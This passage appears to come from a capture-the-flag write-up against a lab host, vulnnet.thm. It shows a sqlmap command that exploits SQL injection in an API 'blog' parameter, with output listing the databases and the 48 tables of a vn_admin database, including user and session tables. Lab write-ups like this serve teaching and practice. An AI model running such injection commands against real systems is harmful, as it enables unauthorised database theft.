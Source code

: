 ```bash
[xx:xx:xx] [INFO] retrieved: 'blog'
[xx:xx:xx] [INFO] retrieved: 'vn_admin'
available databases [3]:                                                                                                                                                         
[*] blog
[*] information_schema
[*] vn_admin
```

<br>

```bash
:~# sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 --batch -D vn_admin --tables
```

```bash
Database: vn_admin                                                                                                                                                               
[48 tables]
+---------------------------------------------+
| backend_layout                              |
| be_dashboards                               |
| be_groups                                   |
| be_sessions                                 |
| be_users                                    |
| cache_adminpanel_requestcache               |
| cache_adminpanel_requestcache_tags          |
| cache_hash                                  |
| cache_hash_tags                             |
| cache_imagesizes                            |
| cache_imagesizes_tags                       |
| cache_pages                                 |
| cache_pages_tags                            |
| cache_pagesection                           |
| cache_pagesection_tags                      |
| cache_rootline                              |
| cache_rootline_tags                         |
| cache_treelist                              |
| fe_groups                                   |
| fe_sessions                                 |
| fe_users                                    |
| pages                                       |
| sys_be_shortcuts                            |
| sys_category                                |
| sys_category_record_mm                      |
| sys_collection                              |
| sys_collection_entries                      |
| sys_file                                    |
| sys_file_collection                         |
| sys_file_metadata                           |
| sys_file_processedfile                      |
| sys_file_reference                          |
| sys_file_storage                            |
| sys_filemounts                              |
| sys_history                                 |
| sys_language                                |
| sys_lockedrecords                           |
| sys_log                                     |
| sys_news                                    |
| sys_note                                    |
| sys_redirect                                |
| sys_refindex                                |
| sys_registry                                |
| sys_template                                |
| tt_content                                  |
```